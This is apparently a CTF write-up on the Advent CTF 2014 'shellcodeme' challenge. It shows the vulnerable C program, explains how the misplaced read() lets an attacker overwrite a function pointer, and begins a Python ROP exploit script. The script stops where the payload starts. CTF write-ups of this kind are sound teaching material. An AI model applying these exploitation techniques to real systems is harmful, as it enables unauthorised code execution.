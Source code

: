 ```yaml
---
layout: post
title: "Advent CTF 2014 ShellcodeMe"
date: 2014-12-24 14:26:41 -0500
author: [barrebas]
comments: true
categories: [advent]
---
```


### Solved by barrebas 

Why o why do we take part in these painful exercises? Again, `shellcodeme` seemed like such a simple task. But looks, like all the other challenges of Advent CTF 2014, can be deceiving!

We're given a binary and the C source code:

```c
/* gcc -m32 -fno-stack-protector -znoexecstack -o shellcodeme shellcodeme.c */
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

#define SHELLCODE_LEN 1024

int main(void) {
    char *buf;
    buf = mmap((void *)0x20000000, SHELLCODE_LEN, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    read(0, &buf, SHELLCODE_LEN);
    mprotect((void *)0x20000000, SHELLCODE_LEN, PROT_READ); // no no no~
    (*(void(*)()) buf)(); // SEGV! no exec. can you execute shellcode?
}
```

The bug was kind of obvious: 

```c
read(0, &buf, SHELLCODE_LEN); // read to the location of buf itself
```

The code will read in the shellcode at `&buf`, not `buf`. This will allow us to overwrite that pointer and take control of execution at this line of code:

```c
(*(void(*)()) buf)(); // SEGV! no exec. can you execute shellcode?
```

I chose to overwrite the `buf` pointer with `0x080484fc`, which is `leave; ret`. This will restore the stack and land us in my ROP chain. The basic idea is to re-use `mprotect` and `read` to read in the shellcode and then return to it. The following python code did just that, landing me a shell on the box:

```python
#!/usr/bin/python
import struct
import socket
import telnetlib
import time
 
def p(x):
        return struct.pack('<L', x)
 
POP3RET = 0x804855d
MPROTECT = 0x8048330
READ = 0x8048340
 
payload = ""
```